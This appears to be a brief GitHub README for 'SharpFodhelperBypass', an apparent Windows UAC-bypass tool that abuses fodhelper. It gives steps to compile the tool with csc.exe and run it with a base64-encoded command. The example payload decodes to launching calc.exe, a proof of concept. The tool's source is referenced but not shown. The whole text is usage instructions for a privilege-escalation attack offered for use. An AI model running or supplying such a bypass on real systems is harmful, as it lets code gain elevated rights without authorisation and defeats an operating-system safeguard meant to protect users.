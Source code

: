 # SharpFodhelperBypass

1. Compile with csc
C:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe SharpFodhelperBypass.csc
2. Base64 encode command to run
3. Execute with base64 encoded command as argument
SharpFodhelperBypass.exe Y21kIC9jIHN0YXJ0IGNhbGMuZXhl
The above will launch calc.exe
